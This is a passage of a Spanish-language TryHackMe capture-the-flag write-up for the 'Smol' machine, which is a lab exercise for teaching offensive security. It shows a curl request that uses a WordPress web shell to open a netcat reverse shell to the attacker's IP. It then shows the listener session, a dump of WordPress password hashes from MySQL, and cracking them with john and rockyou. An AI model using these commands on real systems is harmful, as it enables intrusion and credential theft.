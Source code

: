 ![](../assets/img/smol-tryhackme-writeup/10.png)

Nos ponemos en escucha al puerto 443, ejecutamos el siguiente comando y logramos acceder a la máquina:
```
curl "http://www.smol.thm/wp-admin/?cmd=busybox%20nc%2010.9.3.149%20443%20-e%20sh"
```

#### Reverse shell
```
nc -nvlp 443        
listening on [any] 443 ...
connect to [10.9.3.149] from (UNKNOWN) [10.10.127.202] 38000
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Intentamos encontrar el fichero user.txt pero sin éxito, probamos la contraseña sobre todos los usuarios unix, pero tampoco es funcional.

Recordamos que tenemos acceso a **MySQL**, nos conectamos y extraemos todos los *hashes*, con la idea de crackearlos e intentar reutilizar la contraseña con algún usuario:

```
mysql> select user_login,user_pass from wp_users;
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| admin      | $P$BH******************KdX.        |
| wpuser     | $P$Bf*************BVh2Z1/E.        |
| think      | $P$BO****************k2n0d/        |
| gege       | $P$B1U****************b3PX1        |
| diego      | $P$BWF******************wv1        |
| xavi       | $P$BB4z****************cql1        |
+------------+------------------------------------+
6 rows in set (0.00 sec)
```

Lanzamos **john** con el diccionario de *rockyou* y conseguimos crackear uno de los hashes:
```
john files/users.hashes --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
************** (?)
```
